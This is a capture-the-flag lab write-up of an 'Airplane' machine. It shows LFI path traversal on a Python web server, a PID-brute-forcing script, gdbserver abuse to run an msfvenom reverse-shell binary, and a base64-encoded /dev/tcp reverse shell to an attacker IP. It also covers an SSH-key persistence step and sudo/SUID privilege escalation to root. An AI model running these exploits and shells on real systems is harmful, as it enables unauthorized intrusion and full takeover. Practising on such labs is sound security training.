## TL;DR

In this challenge we exploit `LFI` to find the process running on port `6048`. We exploit the `gdbserver` running on port `6048` to get `RCE`, and then get shell as `hudson`.

From there we move to user `carlos` using SUID bin on `find`, and then move to root using sudo on `ruby` with `*`, which let us execute arbitrary ruby scripts as root.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh, port `6048` with unknown service and port `8000` with `werkzueg` python http server.
```bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b8:64:f7:a9:df:29:3a:b5:8a:58:ff:84:7c:1f:1a:b7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCuy7X5e34bStIhDkjJIcUT3kqFt9fHoI/q8AaCCH6HqgOz2HC5GdcDiBN8W6JMoRIIDJO/9FHiFE+MNtESwOP9J+S348GOhUIsVhDux7caJiyJQElrKxXJgxA7DNUvVJNBUchhgGhFv/qCNbUYF8+uaTYc0o/HtvgVw+t/bxS6EO+OlAOpyAjUP5XZjGTyc4n4uCc8mYW6aQHXZR0t5lMaKkNJzXl5+kHxxxnKci6+Ao8vrlKshgIq25NErSqoeTs/wgBcPMkr5r++emLH+rDwmjrTvwrHb2/bKKUenvnbf9AZXbcN52nGthVi95kP6HaDGijXULjrRt2GCul99OmNhEQxJNtLmUnxpxA9ZhBEzMYe3z5EeIbLuA+E9yFSrR6nq2pagC2/qvVMJSAzD749AbwjtbcL8MOf+7DCT+SATY9VxBqtKep/9PDolKi5+prGH6gzfjCkj5YaFS2CvJeGlF/B1XBzd1ccm43Lc4Ad/F4kvQWwkHmpL38kDy4eWCE=
|   256 ad:61:3e:c7:10:32:aa:f1:f2:28:e2:de:cf:84:de:f0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLYVoN15q7ky/IIo3VNrL35GRCpppImVs7x+PPFRlqO+VcfQ8C+MR2zVEFS0wosQWQFXaCZiInQhWz9swfKN6J8=
|   256 a9:d8:49:aa:ee:de:c4:48:32:e4:f1:9e:2a:8a:67:f0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFIB0hj2IqNazZojgwv0jJr+ZnOF1RCzykZ7W3jKsuCb
6048/tcp open  x11?    syn-ack ttl 62
8000/tcp open  http    syn-ack ttl 62 Werkzeug httpd 3.0.2 (Python 3.8.10)
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-server-header: Werkzeug/3.0.2 Python/3.8.10
|_http-title: Did not follow redirect to http://airplane.thm:8000/?page=index.html
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `airplane.thm` to my `/etc/hosts`

### Detect LFI in page GET parameter

when we visit the root page on port `8000` we are being redirected to `http://airplane.thm:8000/?page=index.html`.


It looks like possible `LFI` vulnerability, I tried to access this url:
```bash
http://airplane.thm:8000/?page=../../../../../../../etc/passwd
```

and we got `/etc/passwd`:



and this is the file we get:
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:115::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:109:116:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:110:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:111:117:RealtimeKit,,,:/proc:/usr/sbin/nologin
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
cups-pk-helper:x:113:120:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
avahi:x:115:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:117:123::/var/lib/saned:/usr/sbin/nologin
nm-openvpn:x:118:124:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
hplip:x:119:7:HPLIP system user,,,:/run/hplip:/bin/false
whoopsie:x:120:125::/nonexistent:/bin/false
colord:x:121:126:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
fwupd-refresh:x:122:127:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
geoclue:x:123:128::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:124:129:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:125:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:126:131:Gnome Display Manager:/var/lib/gdm3:/bin/false
sssd:x:127:132:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
carlos:x:1000:1000:carlos,,,:/home/carlos:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
hudson:x:1001:1001::/home/hudson:/bin/bash
sshd:x:128:65534::/run/sshd:/usr/sbin/nologin
```

Next, I want to get environment variables using `/proc/self/environ`



```bash
LANG=en_US.UTF-8
LC_ADDRESS=tr_TR.UTF-8
LC_IDENTIFICATION=tr_TR.UTF-8
LC_MEASUREMENT=tr_TR.UTF-8
LC_MONETARY=tr_TR.UTF-8
LC_NAME=tr_TR.UTF-8
LC_NUMERIC=tr_TR.UTF-8
LC_PAPER=tr_TR.UTF-8
LC_TELEPHONE=tr_TR.UTF-8
LC_TIME=tr_TR.UTF-8
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
HOME=/home/hudson
LOGNAME=hudson
USER=hudson
SHELL=/bin/bash
INVOCATION_ID=836e8c7c08ed4afabf87ca76a513355c
JOURNAL_STREAM=9:19063
```

### Find gdbserver is running on port 6048 and get RCE

We now there is some service on port `6048`, which is unique. So, I this script [https://github.com/josemlwdf/LFI_PID_Fuzzer](https://github.com/josemlwdf/LFI_PID_Fuzzer) to brute force PID's using the `LFI`, maybe we'll find something interesting.

This is the script after modification:
```py
import requests
import threading

thread_list = []

def call(PID):
    url = "http://airplane.thm:8000/?page=../../../../../../../"    
    payload = "/proc/{}/cmdline".format(PID)
    resp = requests.get(url + payload).text
    if (not "not found" in resp) and (resp.strip() != ""):
        print(resp)

for i in range (1, 5000):
    thread = threading.Thread(target=call, args=(i,))
    thread.start()
    thread_list.append(thread)

for thread in thread_list:
    thread.join()
```

We can find this interesting line:
```bash
/usr/bin/gdbserver 0.0.0.0:6048 airplane                                                                                                           
```



I googled for `gdbserver` exploit, and find this [https://angelica.gitbook.io/hacktricks/network-services-pentesting/pentesting-remote-gdbserver](https://angelica.gitbook.io/hacktricks/network-services-pentesting/pentesting-remote-gdbserver).

```bash
┌──(agonen㉿kali)-[~/thm/Airplane]                                                                                                                                                           
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.164.248 LPORT=1337 PrependFork=true -f elf -o binary.elf                                                                           
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload                                                                                                         
[-] No arch selected, selecting arch: x64 from the payload                                                                                                                                   
No encoder specified, outputting raw payload                                                                                                                                                 
Payload size: 106 bytes                                                                                                                                                                      
Final size of elf file: 226 bytes                                                                                                                                                            
Saved as: binary.elf                                                                                                                                                                         
                                                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/Airplane]                                                                                                                                                           
└─$ chmod +x binary.elf
```

and inside the `gdb`:
```bash
┌──(agonen㉿kali)-[~/thm/Airplane]
└─$ gdb binary.elf

GNU gdb (Debian 16.3-5) 16.3
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from binary.elf...
(No debugging symbols found in binary.elf)
(gdb) target extended-remote 10.67.131.158:6048
Remote debugging using 10.67.131.158:6048
(gdb) remote put binary.elf /tmp/binary.elf
Successfully sent file "binary.elf".
(gdb) set remote exec-file /tmp/binary.elf
(gdb) run
Starting program: /home/agonen/thm/Airplane/binary.elf 
[Detaching after fork from child process 81366]
[Inferior 1 (process 81344) exited normally]
```

Notice, we upload the file after connecting to the remote gdb, and then execute it.

In another window, i set up a listener:
```bash
nc -nvlp 1337
```



And of course, paste the payload from penelope:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
```



### Move to user carlos using SUID on find

I executed linpeas and found we have sudo on `/usr/bin/find`, which is controlled by `carlos`



I used [https://gtfobins.github.io/gtfobins/find/](https://gtfobins.github.io/gtfobins/find/), this is the command we'll use
```bash
/usr/bin/find . -exec /bin/bash -p \; -quit
```



we grab the user flag:
```bash
hudson@airplane:/tmp$ /usr/bin/find . -exec /bin/bash -p \; -quit
bash-5.0$ cd /home/carlos
bash-5.0$ cat user.txt 
eebfca2ca5a2b8a56c46c781aeea7562
```

For persisteny, I created pair of keys:
```bash
┌──(agonen㉿kali)-[~/thm/Airplane]                                                                                                               
└─$ ssh-keygen -t rsa -b 2048 -f ./key -q -N ""
```

Then, i put the content of `key.pub` inside `/home/carlos/.ssh/authorized_keys`:
```bash
bash-5.0$ echo -e 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+3+fl6f+TYGSnNo/30y4rWG4HBvq55/6bWeHe5ztBIG6krd1hozrOdS1cNsW7qdSI0BJDWkbhpeEvMLhSOiJwvnejCPjAkoeUXZZQh0gQUuSOl7oHkrrQHwUPXiegWfMZgDNbCWver1MeJ8AIn6iYZOvK7iu70vJLezcZXDoUDDc2wOyORM/SVPVq3QfsJAQ1qepuLX8yQmQy5IdvW2loyl97CK1uG/v4JZY/C1uYjVs80Jpv6NRuxU79Q8Y0B0Pi2iAbHWjxx6QyplR2iZX4c/znJR/CdbUpYhwkaxovZkeJQy521hD2QvG4bJEcq6r8ethp1zrG7vJY4ATkD8+l agonen@kali' > /home/carlos/.ssh/authorized_keys
```

Now we can login via ssh:



### Privilege Escalation to Root using sudo on ruby and *

Using `sudo -l` we can see that we have one command we can execute as root:
```bash
carlos@airplane:~$ sudo -l
Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```

Okay, we can exploit the `*` to move it to controlled path:
```bash
carlos@airplane:/tmp$ echo -e 'system("id")' > cmd.rb 
carlos@airplane:/tmp$ sudo /usr/bin/ruby /root/../tmp/cmd.rb 
uid=0(root) gid=0(root) groups=0(root)
```



And now, let's add the `SUID` bit to `/bin/bash`:
```bash
carlos@airplane:/tmp$ echo -e 'system("chmod u+s /bin/bash")' > cmd.rb 
carlos@airplane:/tmp$ sudo /usr/bin/ruby /root/../tmp/cmd.rb 
carlos@airplane:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Nis 18  2022 /bin/bash
carlos@airplane:/tmp$ bash -p
bash-5.0# id
uid=1000(carlos) gid=1000(carlos) euid=0(root) groups=1000(carlos),27(sudo)
bash-5.0# cat /root/root.txt 
190dcbeb688ce5fe029f26a1e5fce002
```



and the root flag is:
```bash
bash-5.0# cat /root/root.txt 
190dcbeb688ce5fe029f26a1e5fce002
```